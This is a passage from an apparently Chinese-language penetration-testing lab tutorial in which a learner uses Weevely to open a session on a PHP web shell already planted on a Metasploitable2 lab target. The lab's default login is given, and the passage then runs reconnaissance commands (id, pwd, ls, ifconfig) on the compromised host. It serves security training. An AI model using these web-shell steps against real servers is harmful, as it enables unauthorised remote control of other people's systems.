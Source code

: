 ![图片描述](../imgs/1480994046645.png-wm.png)

### 4.4 通过 weevely 创建会话

当木马文件，上传到网站的根目录后，Weevely 创建会话的准备工作已经完成。接着我们将使用 Weevely 创建会话，在 Kali 终端中，使用 weevely 命令，输入目标主机木马地址和会话的密码**`注意：`不要忘记会话通道密码，密码在生成的时候是自定义的**：

```
# 如果是使用 Metasploitable2 作为目标靶机。则步骤一样，改掉相应的 IP 地址。Metasploitable2 账号密码为：msfadmin/msfadmin
# 命令格式如下，url 为木马地址， password 为生成木马的密码
# weevely <url> <password>
weevely http://192.168.122.1/hello.php hello
```

在这里要稍等一会，成功后如下所示：

![图片描述](../imgs/1481011627631.png-wm.png)

### 4.5 查看系统信息

由上图可知，使用 Weevely 创建会话成功，攻击者已经成功渗透入了目标靶机。输入如下命令，可以验证当前用户，以及当前的路径，路径下的文件名和目标靶机信息：

```
# 查看当前用户 id
id

# 查看当前路径
pwd

# 查看当前路径下的文件
ls

# 查看当前系统的信息
ifconfig
```
